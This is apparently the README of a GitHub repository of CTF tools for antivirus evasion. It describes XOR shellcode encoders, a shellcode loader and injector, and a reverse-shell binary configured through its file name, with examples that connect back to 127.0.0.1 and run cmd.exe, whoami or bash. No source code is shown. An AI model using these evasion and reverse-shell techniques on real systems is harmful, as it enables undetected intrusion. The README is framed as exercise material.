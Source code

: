 # Evado
CTF Tools for Simple AV Evasion

### SimpleXor
Simple ShellCode Xor (NET Core 6.0)

### SimpleLoader
Simple Xor ShellCode Loader (NET Core 6.0)

### PascalXORInject
Simple Xor ShellCode Injector (Pascal) <br>
Use Lazarus to compile. <br>
Add $00 at the end of your shellcode. <br>
Shellcode needs to be XORED. <br>

### UniversalisRev
Simple TcpReverser (NET Core 6.0) ***compatible with cross-compilation***. <br> 
Inside there are two Publishing profiles (Windows x64 and Linux x64). <br> Should also be compatible with MacOS and ARM architecture (Not MacOS ARM).
<br>
Compile it for the operating system you need.
<br><br>
Usage: <br>
Program will try to connect back based on its name.
You can specify the binary or the command to execute and send over Tcp by changing the last part of the name.<br>
<br> Examples: <br>
`UniversalisRev_127.0.0.1_443_cmd.exe` <br>
`UniversalisRev_127.0.0.1_443_whoami.exe` <br>
`UniversalisRev_127.0.0.1_443_-bin-bash`

